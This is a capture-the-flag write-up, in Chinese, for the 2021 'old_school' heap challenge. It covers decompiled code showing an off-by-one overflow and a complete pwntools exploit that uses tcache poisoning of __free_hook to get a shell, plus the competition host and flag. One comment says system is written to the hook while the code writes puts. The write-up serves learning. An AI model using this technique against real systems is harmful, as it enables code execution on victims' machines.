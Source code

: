 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **old_school**

> challenge name: `old_school`
>
> file: `old_school`, libc-2.27.so
>
> ld.so and .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16
>
> 此前没有做过堆上的Off-By-One，第一次做，花的时间比预想的短，记录下这一个第一次。

Off-By-One漏洞，malloc时size为0x28,0x38,0x48...时，可以向下一chunk的size域的最低1字节写入任意一个字符。

思路：把一个chunk放入unsorted bin中，然后利用前面的一个chunk做Off-By-One，改大unsorted bin中的chunk的size，再把unsorted bin中的chunk malloc回来。因为这个chunk的size实际上是大于在内存上本来应有的size，所以这个chunk是可以编辑到下一个chunk的。只要下一个chunk在tcache中，就可以改下一chunk的fw为`__free_hook`，然后做tcache poisoning。



一句话概括：把一个在unsorted bin中的chunk的size改大，拿回来的时候，编辑下一个chunk，这个chunk要在tcache中。

# IDA Analysis

保护全开

标准表单题，漏洞出在edit中，如果new时的大小为0x28, 0x38...这样的，edit时可以输入size+1个字符，最后一个字符将可以覆盖下一个chunk的size域的最低1字节。即Off-By-One漏洞

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  sub_9A5();
  while ( 1 )
  {
    menu();
    switch ( readint() )
    {
      case 1LL:
        new();
        break;
      case 2LL:
        edit();                                 // 存在溢出 可以覆盖下一chunk的size
        break;
      case 3LL:
        print();                                // idx可为负数，content调printf %s输出
        break;
      case 4LL:
        delete();                               // free后指针置0 arrSize[idx]置0
        break;
      case 5LL:
        exit(0);
      default:
        puts("Unknown");
        break;
    }
  }
}
```

```cpp
unsigned __int64 edit()
{
  unsigned __int64 idx; // rax
  unsigned __int64 idx_ori; // [rsp+8h] [rbp-8h]

  printf("Index: ");
  idx = readint();
  idx_ori = idx;
  if ( idx <= 0x1F )
  {
    idx = arrPtr[idx];
    if ( idx )
    {
      printf("Content: ");
      return edit_sub(arrPtr[idx_ori], arrSize[idx_ori] + 1LL);// 可以向下一chunk的size域写入一个任意字符
    }
  }
  return idx;
}
```

```cpp
unsigned __int64 __fastcall edit_sub(__int64 ptr, unsigned __int64 len)
{
  unsigned __int64 result; // rax
  unsigned __int64 i; // [rsp+18h] [rbp-8h]

  for ( i = 0LL; ; ++i )
  {
    result = i;
    if ( i >= len )
      break;
    read(0, (void *)(ptr + i), 1uLL);
    result = *(unsigned __int8 *)(ptr + i);
    if ( (_BYTE)result == '\n' )
      break;
  }
  return result;
}
```



# exp

gdb里可以用`x /30xg $a`来查看arrPtr，程序用来存放指针的数组。

```python
from pwn import *
context.arch = 'amd64'
# context.log_level = "debug"
IP = "121.36.194.21"
PORT = 49154
DEBUG = 1


if DEBUG:
    p = process(["./ld.so", "./old_school"], env={"LD_PRELOAD": "./libc-2.27.so"})
    # p = process("./old_school")
    libc = ELF("./libc-2.27.so")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[1].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:  # flag{m0lWJAzDB1vzxMn9PlMQXkPvEmGAdZzB}
    p = remote(IP, PORT)
    libc = ELF("./libc-2.27.so")


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        # cmd += "b *%d\n" % (base + 0xC0E)  #
        cmd += "set $a=%d\n" % (base + 0x202160)  # arrPtr
        debug(cmd)


def new(idx, size):
    sla("Your choice: ", str(1))
    sla("Index: ", str(idx))
    sla("Size: ", str(size))
    ru("Done!")


def edit(idx, content):
    sla("Your choice: ", str(2))
    sla("Index: ", str(idx))
    sa("Content: ", content)


def printnote(idx):
    sla("Your choice: ", str(3))
    sla("Index: ", str(idx))
    ru("Content: ")
    return ru("1. New note")[:-12]


def delete(idx):
    sla("Your choice: ", str(4))
    sla("Index: ", str(idx))


new(0, 0x18)  # no use
new(1, 0x18)  # no use

edit(1, "chunk1".ljust(0x10, 'a') + '\n')
# === Step-1: full tcache, a chunk to unsorted bin
new(2, 0x98)
for i in range(3, 10, 1):
    new(i, 0x98)  # 3~9
for i in range(9, 2, -1):
    delete(i)  # 9~3 # full tcache
delete(2)  # to unsorted_bin
# tcache(0xa0) cnt=7: c3, c4, c5 ... c9 # unsorted_bin cnt=1: 0xa0

# === Step-2: get back a chunk in unsorted bin, leak libc addr
new(2, 0x78)  # get a chunk(0x81) from unsorted_bin # 拿回 unsorted_bin 的chunk
data = printnote(2)  # leak libc addr # 泄露刚刚拿回来的chunk上残留的libc上的地址
libc.address = u64(data.ljust(8, b"\x00")) - 0x7fd552399d30 + 0x00007fd551fae000
print("data:", data)
print("libc.address:", libc.address, hex(libc.address))

# tcache(0xa0) cnt=7: c3, c4, c5 ... c9 # unsorted_bin cnt=1: 0x20
# === Step-3: edit the rest chunk's size in unsorted_bin
edit(2, "chunk2".ljust(0x78, 'a') + chr(0x61))  # cover size to 0x61
# tcache(0xa0) cnt=7: c3, c4, c5 ... c9 # unsorted_bins cnt=1: 0x60

new(3, 0x58)  # malloc the chunk in unsorted bin
# cover fw of head chunk in tcache
edit(3, b"chunk3".ljust(0x18, b'a') + p64(0xa0) + p64(libc.symbols["__free_hook"]) + b'\n')
# tcache(0xa0) cnt=7: head_chunk, &__free_hook
new(4, 0x98)  # tcache(0xa0) cnt=6: &__free_hook
edit(4, "/bin/sh\x00\n")
new(5, 0x98)  # get &__free_hook
edit(5, p64(libc.symbols["puts"]) + b'\n')  # cover __free_hook with system
delete(4)  # system("/bin/sh\x00\n")
dd()

p.interactive()

```

